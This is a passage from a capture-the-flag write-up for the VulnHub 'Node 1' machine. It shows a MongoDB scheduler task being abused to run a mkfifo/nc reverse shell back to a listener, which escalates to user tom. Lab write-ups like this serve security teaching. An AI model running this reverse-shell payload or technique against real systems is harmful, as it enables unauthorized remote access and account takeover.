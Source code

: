 ![writeup.exploitation.steps.3.2](/static/files/posts_vulnhub_node1/screenshot12.png.webp)  

4\. We find that we can run arbitrary commands from within the MongoDB instance using its `scheduler` record for which we already found credentials via `app.js` file from the backup archive. Since the MongoDB instance is running as user `tom`, we spawn a Bash reverse shell to switch users:  
```
nc -nlvp 443
mongo -p -u mark scheduler
  db.tasks.insert({"cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.92.179 443 >/tmp/f"})
  bye
cat /home/tom/user.txt
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_node1/screenshot13.png.webp)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_node1/screenshot14.png.webp)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_node1/screenshot15.png.webp)  
